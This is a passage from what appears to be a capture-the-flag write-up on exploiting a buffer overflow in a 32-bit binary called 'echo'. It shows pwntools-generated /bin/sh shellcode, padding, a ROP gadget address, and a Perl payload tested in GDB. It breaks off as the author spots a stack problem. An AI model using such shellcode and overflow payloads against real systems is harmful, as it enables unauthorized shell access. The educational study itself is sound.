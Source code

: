 And with that, I can identify the structure of my payload:
```shell
shellcode + 'A'*(304 - len(shellcode)) + rop_address*43
```
When I use the `PWN` tools to create the `shellcode`:
```python
>>> from pwn import ELF, context, asm, shellcraft
>>> context.binary = ELF('echo')
>>> shellcode = asm(shellcraft.sh())
>>> print(f'junk A={304 - len(shellcode)}', '\n', f"{shellcode=}")
junk A=260
shellcode=b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj
\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```
Then I  check the `echo-rop.txt` file, and I look for a single `pop` instruction, then I decided to use:
```shell
...SNIPPED...
0x8048493: pop ebp; ret
...SNIPPED...
```
When I test the payload, and I make it with `Perl`, and I test it with `GDB`, and I am careful to write the address in reverse order `little endian`:
```shell
$ gdb-peda$ r $(perl -e 'print "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x81
4$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" . "A" x 260
 . "\x93\x84\x04\x08" x 43 ')
```
And I analyze the behavior of the stack, then I can tell there is a problem:
